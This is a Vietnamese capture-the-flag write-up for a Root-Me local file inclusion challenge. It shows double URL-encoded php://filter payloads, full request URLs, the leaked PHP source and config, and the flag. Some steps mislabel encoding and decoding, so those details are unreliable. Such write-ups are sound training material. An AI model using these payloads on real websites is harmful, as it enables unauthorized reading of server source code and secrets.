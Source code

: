 # Local File Inclusion - Double encoding

#### Statement
Find the validation password in the source files of the website.


Đề bài là encode 2 lần, vậy ta url encode 2 lần payload sau: 
`php://filter/convert.base64-encode/resource=home` (mình lấy trên lfi hacktricks)

Sau khi encode url 2 lần ta được `php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Ddecode%252Fresource%253Dhome`

Thử truy cập payload
`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dhome`  thì ta nhận được 1 chuỗi mã hóa base64 sau đó ta encode base64 tiếp thì được

```php
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Home</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home" class="active">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact">Contact</a>
    </nav>
    <div id="main">
      <?= $conf['home'] ?>
    </div>
  </body>
</html>

```

chú ý ta sẽ thấy
```php
?php include("conf.inc.php"); ?>
```

Thay đổi file home thành file conf vào payload như sau:
`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

Ta lại được 1 chuỗi base 64 và lần này cũng encode base64 tiếp thì ta được:
```php
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];
```

Ta thấy
```php 
"flag"        => "Th1sIsTh3Fl4g!",
```

####Flag: "Th1sIsTh3Fl4g!"